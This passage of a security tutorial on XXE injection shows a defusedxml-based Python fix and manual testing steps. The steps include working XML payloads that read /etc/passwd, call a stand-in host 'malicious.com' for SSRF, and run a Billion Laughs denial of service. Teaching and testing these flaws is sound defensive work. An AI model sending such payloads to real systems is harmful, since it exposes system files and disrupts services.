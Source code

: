 **Mitigated Code**:
```python
import xml.etree.ElementTree as ET
import defusedxml.ElementTree as DefusedET

def parse_xml(xml_input):
    # Use defusedxml for secure parsing
    try:
        root = DefusedET.fromstring(xml_input)
        return root.find('data').text
    except DefusedET.EntitiesForbidden:
        raise ValueError("XML entities are not allowed")
    except:
        raise ValueError("Invalid XML")
```

---

## 6. How to Find XXE Injection Using DAST

### Steps for Manual Testing
Dynamic Application Security Testing (DAST) involves testing a running application to identify vulnerabilities like XXE. Here’s how to test manually:

1. **Identify XML Input Points**:
   - Look for endpoints that accept XML input, such as file uploads, API POST requests, or form submissions with XML content types (e.g., `application/xml`).
   - Common locations include user profile uploads, API payloads, or SOAP-based web services.

2. **Craft Malicious XML Payloads**:
   - Test for file disclosure:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
     <root><data>&xxe;</data></root>
     ```
   - Test for SSRF:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://malicious.com">]>
     <root><data>&xxe;</data></root>
     ```
   - Test for DoS (Billion Laughs):
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE lolz [
       <!ENTITY lol "lol">
       <!ENTITY lol1 "&lol;&lol;">
       <!ENTITY lol2 "&lol1;&lol1;">
       <!ENTITY lol3 "&lol2;&lol2;">
     ]>
     <root><data>&lol3;</data></root>
     ```
